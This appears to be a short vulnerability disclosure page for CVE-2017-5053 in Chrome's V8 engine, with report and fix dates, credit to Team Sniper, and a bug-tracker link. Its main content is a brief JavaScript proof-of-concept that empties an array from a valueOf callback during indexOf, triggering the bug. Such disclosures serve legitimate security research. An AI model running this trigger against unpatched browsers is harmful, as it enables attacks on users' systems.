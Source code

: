 # CVE-2017-5053

- Report: Mar 2017
- Fix: Mar 2017
- Credit: Team Sniper (Keen Lab and PC Mgr)

## PoC

```javascript
arr=[];
for (var i = 0; i < 100000; i++)
    arr[i] = [];
arr.indexOf(new Object(), {valueOf:function(){arr.length = 0}})
```

## Reference

- [Issue](https://crbug.com/702058)
